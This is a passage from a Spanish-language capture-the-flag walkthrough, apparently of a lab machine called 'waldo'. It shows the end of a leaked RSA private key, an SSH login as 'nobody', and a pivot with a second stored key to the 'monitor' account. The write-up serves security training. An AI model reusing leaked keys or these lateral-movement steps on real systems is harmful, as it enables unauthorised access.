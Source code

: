 ```
rj1BhUCzZCUgQABtpC6vYj/HLLlzpiC05AIEhDdvToPK/0WuY64fds0VccAYmMDr
X/PlAoGAS6UhbCm5TWZhtL/hdprOfar3QkXwZ5xvaykB90XgIps5CwUGCCsvwQf2
DvVny8gKbM/OenwHnTlwRTEj5qdeAM40oj/mwCDc6kpV1lJXrW2R5mCH9zgbNFla
W0iKCBUAm5xZgU/YskMsCBMNmA8A5ndRWGFEFE+VGDVPaRie0ro=
-----END RSA PRIVATE KEY-----
```

Si todo va bien nos `conectamos` por `SSH`

```
# ssh -i id_rsa nobody@10.129.229.141   
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <http://wiki.alpinelinux.org>.
waldo:~$ whoami
nobody
```

He encontrado esto en `authorized_keys `

```
waldo:~/.ssh$ cat authorized_keys 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzuzK0MT740dpYH17403dXm3UM/VNgdz7ijwPfraXk3B/oKmWZHgkfqfg1xx2bVlT6oHvuWLxk6/KYG0gRjgWbTtfg+q3jN40F+opaQ5zJXVMtbp/zuzQVkGFgCLMas014suEHUhkiOkNUlRtJcbqzZzECV7XhyP6mcSJFOzIyKrWckJJ0YJz+A2lb8AA0g3i9b0qyUuqIAQMl9yFjnmwInnXrZj34jXHOoXx71vXbBVeKu82jw8sacUlXDpIeGY8my572+MAh4f6f7leRtzz/qlx6jCqz26NGQ3Mf1PWUmrgXHVW+L3cNqrdtnd2EghZpZp+arOD6NJOFJY4jBHvf monitor@waldo
```

Usando la `id_rsa` nos podemos `conectar` a la `máquina principal`

```
waldo:~/.ssh$ ssh -i .monitor monitor@waldo
Linux waldo 4.19.0-25-amd64 #1 SMP Debian 4.19.289-2 (2023-08-08) x86_64
           &.                                                                  
          @@@,@@/ %                                                            
       #*/%@@@@/.&@@,                                                          
   @@@#@@#&@#&#&@@@,*%/                                                        
   /@@@&###########@@&*(*                                                      
 (@################%@@@@@.     /**                                             
 @@@@&#############%@@@@@@@@@@@@@@@@@@@@@@@@%((/                               
 %@@@@%##########&@@@....                 .#%#@@@@@@@#                         
 @@&%#########@@@@/                        */@@@%(((@@@%                       
    @@@#%@@%@@@,                       *&@@@&%(((#((((@@(                      
     /(@@@@@@@                     *&@@@@%((((((((((((#@@(                     
       %/#@@@/@ @#/@          ..@@@@%(((((((((((#((#@@@@@@@@@@@@&#,            
          %@*(@#%@.,       /@@@@&(((((((((((((((&@@@@@@&#######%%@@@@#    &    
        *@@@@@#        .&@@@#(((#(#((((((((#%@@@@@%###&@@@@@@@@@&%##&@@@@@@/   
       /@@          #@@@&#(((((((((((#((@@@@@%%%%@@@@%#########%&@@@@@@@@&     
      *@@      *%@@@@#((((((((((((((#@@@@@@@@@@%####%@@@@@@@@@@@@###&@@@@@@@&  
      %@/ .&%@@%#(((((((((((((((#@@@@@@@&#####%@@@%#############%@@@&%##&@@/   
      @@@@@@%(((((((((((##(((@@@@&%####%@@@%#####&@@@@@@@@@@@@@@@&##&@@@@@@@@@/
     @@@&(((#((((((((((((#@@@@@&@@@@######@@@###################&@@@&#####%@@* 
     @@#(((((((((((((#@@@@%&@@.,,.*@@@%#####@@@@@@@@@@@@@@@@@@@%####%@@@@@@@@@@
     *@@%((((((((#@@@@@@@%#&@@,,.,,.&@@@#####################%@@@@@@%######&@@.
       @@@#(#&@@@@@&##&@@@&#@@/,,,,,,,,@@@&######&@@@@@@@@&&%######%@@@@@@@@@@@
        @@@@@@&%&@@@%#&@%%@@@@/,,,,,,,,,,/@@@@@@@#/,,.*&@@%&@@@@@@&%#####%@@@@.
          .@@@###&@@@%%@(,,,%@&,.,,,,,,,,,,,,,.*&@@@@&(,*@&#@%%@@@@@@@@@@@@*   
            @@%##%@@/@@@%/@@@@@@@@@#,,,,.../@@@@@%#%&@@@@(&@&@&@@@@(           
            .@@&##@@,,/@@@@&(.  .&@@@&,,,.&@@/         #@@%@@@@@&@@@/          
           *@@@@@&@@.*@@@          %@@@*,&@@            *@@@@@&.#/,@/          
          *@@&*#@@@@@@@&     #@(    .@@@@@@&    ,@@@,    @@@@@(,@/@@           
          *@@/@#.#@@@@@/    %@@@,   .@@&%@@@     &@&     @@*@@*(@@#            
           (@@/@,,@@&@@@            &@@,,(@@&          .@@%/@@,@@              
             /@@@*,@@,@@@*         @@@,,,,,@@@@.     *@@@%,@@**@#              
               %@@.%@&,(@@@@,  /&@@@@,,,,,,,%@@@@@@@@@@%,,*@@,#@,              
```